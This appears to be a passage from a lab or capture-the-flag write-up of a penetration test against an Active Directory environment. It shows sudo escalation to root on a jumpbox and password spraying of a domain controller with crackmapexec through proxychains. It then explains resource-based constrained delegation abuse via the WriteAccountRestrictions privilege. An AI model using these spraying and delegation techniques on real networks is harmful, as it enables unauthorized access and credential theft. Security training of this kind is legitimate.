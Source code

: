 Now that we have these credentials, we can try to login as this user on the jumpbox. We also won’t need our reverse shell as svc-web-accounting any longer.

    pentest@frajmp:/home$ su _local
    Password: 
    _local@frajmp:/home$ ls


    _local@frajmp:/home$ sudo -l
    [sudo] password for _local: 
    Matching Defaults entries for _local on localhost:
        env_reset, mail_badpass,
        secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
        use_pty

    User _local may run the following commands on localhost:
        (ALL : ALL) ALL
    _local@frajmp:/home$ sudo su
    root@frajmp:/home# 

its also work for another user


    ➜  heron proxychains crackmapexec smb 10.10.156.21 -u fullusers.txt -p '<redacted>' --continue-on-success


    SMB         10.10.156.21    445    MUCDC            [+] heron.vl\Julian.Pratt:<redacted>

got another password on Julian smb files (check .lnk files)


    ➜  julian proxychains crackmapexec smb 10.10.156.21 -u adm_prju -p '<redacted>' --continue-on-success
    [proxychains] config file found: /etc/proxychains4.conf
    [proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
    [proxychains] DLL init: proxychains-ng 4.17
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:445  ...  OK
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:135  ...  OK
    SMB         10.10.156.21    445    MUCDC            [*] Windows Server 2022 Standard 20348 x64 (name:MUCDC) (domain:heron.vl) (signing:True) (SMBv1:True)
    [proxychains] Strict chain  ...  127.0.0.1:1081  ...  10.10.156.21:445  ...  OK
    SMB         10.10.156.21    445    MUCDC            [+] heron.vl\adm_prju:<redacted>

## WriteAccountRestrictions
![alt text](../assets/images/Screenshot_2024-07-13_00_50_37.png)

It seems that since adm_prju is within the ADMINS_T1 group, they have the WriteAccountRestrictions privilege over the domain controller.

Having WriteAccountRestrictions means that adm_prju has write access to all of the attributes on the machine, notably msDS-AllowedToActOnBehalfOfOtherIdentity. If we have the ability to modify this attribute, this means we can abuse resource-based constrained delegation.

For a small note on what resource-based constrained delegation is, it essentially allows us to request a service ticket for a specified service name to which will be impersonated by a user of our selection. We can then import this service ticket to use for either authentication or credential dumping, depending on the user we impersonate.
